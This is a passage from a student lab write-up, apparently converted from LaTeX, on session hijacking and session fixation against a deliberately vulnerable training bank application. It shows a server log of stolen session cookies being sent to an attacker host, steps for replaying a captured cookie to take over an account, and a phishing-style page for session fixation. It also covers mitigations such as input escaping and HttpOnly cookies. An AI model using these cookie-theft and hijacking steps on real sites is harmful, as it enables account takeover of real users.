
\includegraphics{images/task2/session_hijack_initiate_transfer.PNG}
\caption{session\_hijack\_initiate\_transfer}
\end{figure}

\begin{itemize}
\item
  The above scripts automatically sends a \texttt{GET} request(whenn the
  victim page is loaded) to the attacker address.
\item
  The request for the above script can be seen in attacker's server
  logs, ```bash └─\$ sudo python -m SimpleHTTPServer 81\\
  Serving HTTP on 0.0.0.0 port 81 \ldots{} 192.168.37.128 - -
  {[}23/May/2021 15:34:01{]} code 404, message File not found
  192.168.37.128 - - {[}23/May/2021 15:34:01{]} ``GET
  /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1'' 404 -
  192.168.37.128 - - {[}23/May/2021 15:35:07{]} code 404, message File
  not found 192.168.37.128 - - {[}23/May/2021 15:35:07{]} ``GET
  /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1'' 404 -
  192.168.37.128 - - {[}23/May/2021 15:38:23{]} code 404, message File
  not found 192.168.37.128 - - {[}23/May/2021 15:38:23{]} ``GET
  /c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1'' 404 -

  ```
\item
  From the logs we can observe the request contents
  \texttt{USECURITYID=crblk95qe8b8mmdcva0saaj9m4} which we know that, is
  a cookie value.
\end{itemize}

\textbf{2. Use the implementation from the last step to hijack the
session of a customer of your bank. Briefly describe the steps to
perform this attack.}

\textbf{solution:}

\begin{itemize}
\item
  Copy the \texttt{USECURITYID=b35oqi84j4l16mecckl4lksf60}(another
  captured cookie) that is captured on the server log.
\item
  Installed \texttt{EditThisCookie} extension from chrome
  https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=en
\item
  Open the login page of the application in a private window .
\item
  Paste the cookie value, into the \texttt{Value} field.
  
\includegraphics{images/task2/edit_this_cookie.PNG}
\item
  Click on Green tick below the window.
\item
  Reload the page.
\item
  Should be logged in as a user.
\item
  \textbf{Result}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/hijacked_session.PNG}
  \caption{hijacked\_session\_alex}
  \end{figure}
\end{itemize}

\textbf{3. Which possible implementation mistakes enable your attack?}
\textbf{Solution :} 1. Application is vulnerable to XSS(unsanitized user
input at \texttt{Remarks} field), thus leveraging it to steal cookies.
2. Cross-domain requests are possible(allowing it to send arequest to
the attacker's site), no \texttt{Same-Origin-Policy} is implemented. 3.
No \texttt{HttpOnly} flag, as this tells the browser not to display
access cookies through client-side scripts.

\textbf{4. How would https influence it?} \textbf{Solution:}
\texttt{HTTPS} has no significant influence in this case, as the
attacker can still access the cookie (as it is stored un-encrypted) and
send it over to the attacker's server. However, this would be beneficial
if the attacker is in the same network as the user and try to steal
cookies, as the data is sent encrypted. If cookies are sent in headers
\texttt{secure} flag should be set, indicate to the browser that cookies
can only be sent in \texttt{HTTPS} requests.

\textbf{5. Implement some precautions which can prevent or mitigate this
attack?}

\textbf{Solution:}\\
1. Sanitize user input to avoid any injection into the application. -
Vulnerable code:

\begin{verbatim}
```php
$sql="insert into ".$htbconf['db/transfers']." (".$htbconf['db/transfers.time'].", ".$htbconf['db/transfers.srcbank'].", ".$htbconf['db/transfers.srcacc'].", ".$htbconf['db/transfers.dstbank'].", ".$htbconf['db/transfers.dstacc'].", ".$htbconf['db/transfers.remark'].", ".$htbconf['db/transfers.amount'].") values(now(), ".$htbconf['bank/code'].", ".($http['srcacc'] ^ $xorValue).", ".$http['dstbank'].", ".$http['dstacc'].", '".$http['remark']."', ".$http['amount'].")";  

$result = mysql_query($sql);

```
\end{verbatim}

\begin{itemize}
\item
  Fixed code:

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$sql}\OperatorTok{=}\StringTok{"insert into "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{" ("}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.time\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.srcbank\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.srcacc\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.dstbank\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.dstacc\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.remark\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}db/transfers.amount\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{") values(now(), "}\OperatorTok{.}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}bank/code\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\NormalTok{(}\VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}srcacc\textquotesingle{}}\NormalTok{] }\OperatorTok{\^{}} \VariableTok{$xorValue}\NormalTok{)}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}dstbank\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", "}\OperatorTok{.}\VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}dstacc\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{", \textquotesingle{}"}\OperatorTok{.}\FunctionTok{htmlspecialchars}\NormalTok{(}\VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}remark\textquotesingle{}}\NormalTok{])}\OperatorTok{.}\StringTok{"\textquotesingle{}, "}\OperatorTok{.}\VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}amount\textquotesingle{}}\NormalTok{]}\OperatorTok{.}\StringTok{")"}\OtherTok{;}  

\VariableTok{$result} \OperatorTok{=} \ErrorTok{mysql\_query}\NormalTok{(}\VariableTok{$sql}\NormalTok{)}\OtherTok{;}
\end{Highlighting}
\end{Shaded}
\item
  \textbf{Result:}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/4_XSS.JPG}
  \caption{XSS}
  \end{figure}
\end{itemize}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\setcounter{enumi}{1}
\tightlist
\item
  set \texttt{Http\ Only} flag to true in both index.php and
  login.php(where session is being set) to avoid cookies being accessed
  by client side scripts.
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{session\_set\_cookie\_params}\NormalTok{(}\VariableTok{$htbconf}\NormalTok{[}\StringTok{\textquotesingle{}bank/cookievalidity\textquotesingle{}}\NormalTok{]}\OtherTok{,}\KeywordTok{null}\OtherTok{,}\KeywordTok{null}\OtherTok{,}\KeywordTok{null}\OtherTok{,}\KeywordTok{true}\NormalTok{)}\OtherTok{;}
\end{Highlighting}
\end{Shaded}

\textbf{Result}

\begin{figure}
\centering

\includegraphics{images/task2/HttpOnly_true.JPG}
\caption{Cookie\_Hijaking\_Fix}
\end{figure}

\begin{itemize}
\tightlist
\item
  \texttt{document.cookie} cant access cookie value.
\end{itemize}

\begin{figure}
\centering

\includegraphics{images/task2/4.5.JPG}
\caption{Cookie\_Hijaking\_Fix}
\end{figure}

\begin{itemize}
\tightlist
\item
  Go to \texttt{etc/apache2/apache2.conf} file and override
  \texttt{AllowOverride\ none} to \texttt{AllowOverride\ All}.
\end{itemize}

\begin{figure}
\centering

\includegraphics{images/task2/SameOrigin_Apacheconf.JPG}
\caption{Cookie\_Hijaking\_Fix}
\end{figure}

\begin{itemize}
\tightlist
\item
  Create a .htaccess(if unavailable) file in your website directory
  (/var/www/html) with following lines.
\end{itemize}

\begin{figure}
\centering

\includegraphics{images/task2/SameOrigin_htaccess.JPG}
\caption{Cookie\_Hijaking\_Fix}
\end{figure}

\hypertarget{exercise-5-session-fixation}{%
\subsubsection{Exercise 5: Session
Fixation}\label{exercise-5-session-fixation}}

\textbf{1. Explain the difference to Session Hijacking.}\\
\textbf{Solution :} In Session Fixation, the attacker forces the user to
use the session of his choice, wherein Session Hijacking, the logged-in
user session is hijacked.

\textbf{2. Sketch an attack that allows you to take over the session of
a bank user}

\textbf{Solution :} - Found two approches in hijacking a session using
session fixation. 1. This approch leverages the phishing attack. A
victim is provided with a link and assumption is that he clicks the
link. 2. Manual way, setting the broswer cookie to desired value with
key being \texttt{USECURITYID} (assuming that attacker has physical
access to victim's browser).

\textbf{Approach 1} (Victim: \texttt{Alex}) - create a html file in your
server folder with the following script, ```html

\begin{verbatim}
      </head>
      <body>
        <h1> Congo bro you are not gonna get hacked!! :D </h1>
       <button onclick="getURL()"> Login </button>
      </body>
    </html> 
```
\end{verbatim}

\begin{itemize}
\item
  User is provided with the link \texttt{http://localhost:81/bank.html}
  which will redired to bank web application.

  \begin{figure}
  \centering
  
\includegraphics{images/task2/5.1.JPG}
  \caption{Attacker\_Website}
  \end{figure}
\item
  When user get redirect the cookie value will be set to \texttt{abcde}.

  
\includegraphics{images/task2/5.1.1.JPG}.
\item
  Use the cookie value obtained and edit in the browser application and
  reload the page.

  \begin{figure}
  \centering
  
\includegraphics{images/task2/sesseion_fixation_0.PNG}
  \caption{sesseion\_fixation\_0}
  \end{figure}
\item
  Attacker will now login into victim account.
\item
  \textbf{Result}

  \begin{figure}
  \centering
